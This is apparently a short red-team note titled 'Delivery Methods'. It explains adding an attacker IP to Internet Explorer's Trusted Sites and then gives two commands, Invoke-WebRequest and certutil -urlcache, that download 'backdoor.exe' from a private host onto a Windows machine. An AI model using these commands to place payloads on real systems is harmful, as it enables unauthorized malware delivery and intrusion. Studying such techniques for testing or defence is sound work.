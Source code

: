 # Delivery Methods
But first, go to Internet Explorer settings and choose "Internet Options".

![](Delivery%20Methods/1_image.png)

Click on the "Security" tab, select "Trusted Sites" and then click on the "Sites" button. Fill the "Add this website to the zone" field with your IP address and click the "Add" button.

![](Delivery%20Methods/2_image.png)

`Invoke-WebRequest http://10.x.x.x/backdoor.exe`  
`certutil -urlcache -split -f http://10.x.x.x/backdoor.exe`